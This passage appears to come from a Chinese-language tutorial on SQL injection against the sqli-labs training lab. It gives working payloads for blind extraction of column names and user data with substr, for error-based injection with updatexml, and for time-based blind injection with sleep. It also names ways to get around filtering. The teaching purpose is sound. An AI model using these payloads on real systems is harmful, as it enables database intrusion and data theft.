 ### 逐位爆列名

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='i' %23
```

### 爆数据同理

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr((select username from security.users where id='1' limit 0,1),1,1)='d' %23
```

## 报错注入

```sql
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

有时可能需要将'去掉'

## 延时盲注

时间型盲注 [#](https://wiki.wgpsec.org/knowledge/web/sql-injection.html#时间型盲注)

盲注是在SQL注入攻击过程中，服务器关闭了错误回显，单纯通过服务器返回内容的变化来判断是否存在SQL注入的方式 。

可以用`benchmark`，`sleep`等造成延时效果的函数。

如果`benkchmark`和`sleep`关键字被过滤了，可以让两个非常大的数据表做[笛卡尔积 (opens new window)](https://blog.csdn.net/qq_32763643/article/details/79187931)产生大量的计算从而产生时间延迟；例如使用[`heavy query` (opens new window)](https://www.anquanke.com/post/id/104319)进行延时注入

或者利用复杂的正则表达式去匹配一个超长字符串来产生时间延迟。

**1、利用sleep判断数据库名长度**

```sql
' and sleep(5) and 1=1--+    页面返回不正常，延时5秒
' and sleep(5) and 1=2--+    页面返回不正常，不延时

and if(length(database())>1,sleep(5),1)
--if(条件表达式，真，假) --C语言的三目运算符类似
```

**2.取数据库名**

```sql
and if(substr(database(),1,1)='a',sleep(5),1)--+
```

### 时间型盲注的加速方式 [#](https://wiki.wgpsec.org/knowledge/web/sql-injection.html#时间型盲注的加速方式)

**1、Windows平台上的Mysql可以用DNSlog加速注入**
